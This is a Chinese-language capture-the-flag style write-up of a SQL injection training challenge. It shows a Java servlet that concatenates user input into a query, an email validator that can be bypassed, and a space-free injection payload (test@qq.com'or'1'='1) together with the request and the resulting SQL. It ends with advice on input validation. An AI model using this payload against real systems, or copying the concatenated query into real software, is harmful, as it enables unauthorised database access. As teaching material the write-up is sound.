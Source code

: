 #   SQL Injection Challenge Two(SQL注入挑战 2)

## 题介绍
需要利用一个SQL注入点，获得通关密钥 

## 功能实现 

点击查询用户,获得对应请求  
```
POST /challenges/ffd39cb26727f34cbf9fce3e82b9d703404e99cdef54d2aa745f497abe070b HTTP/1.1


userIdentity=test%40qq.com%22+or+%221%22%3D%221
```

对应代码文件 src/main/java/servlets/module/challenge/SqlInjectionEmail.java  

```
String userIdentity = request.getParameter("userIdentity");
log.debug("User Submitted - " + userIdentity);
if(Validate.isValidEmailAddress(userIdentity))
{
	log.debug("Filtered to " + userIdentity);
	String ApplicationRoot = getServletContext().getRealPath("");
	log.debug("Servlet root = " + ApplicationRoot );
	
	log.debug("Getting Connection to Database");
	Connection conn = Database.getChallengeConnection(ApplicationRoot, "SqlChallengeEmail");
	Statement stmt = conn.createStatement();
	log.debug("Gathering result set");
	ResultSet resultSet = stmt.executeQuery("SELECT * FROM customers WHERE customerAddress = '" + userIdentity + "'");
```

获得 userIdentity 参数后，进行了SQL查询，但中间调用Validate.isValidEmailAddress 进行了一次对参数过滤，判断是否是合法的邮箱地址 ，详细代码如下   

```
	public static boolean isValidEmailAddress(String email) 
	{
	   boolean result = true;
	   try 
	   {
		  log.debug("About to crash");
	      InternetAddress emailAddr = new InternetAddress(email);
	      log.debug("Did we crash");
	      emailAddr.validate();
	      log.debug("Didn't crash");
	   } 
	   catch (AddressException ex)
	   {
	      result = false;
	   }
	   return result;
	}
```

通过InternetAddress 类进行判断的，因此要想成功注入获取结果，首先要绕过InternetAddress类的检测，经过测试该类不允许邮箱地址存在空格


## 解题步骤  

不能输入空格，可以使用很多方法绕过检测 如 test@qq.com'or'1'='1 ，最终执行的SQL变成   
```
SELECT * FROM customers WHERE customerAddress = 'test@qq.com'or'1'='1'  
```

## 总结  

在开发指南中，我们经常要求进行输入验证，但本题做了输入验证，仍然存在安全漏洞，说明能够实现正确的输入验证并非易事   
对于普通的研发人员，白名单+黑名单的方式可能更简单，比如本题进一步不允许输入单引号等特殊字符  


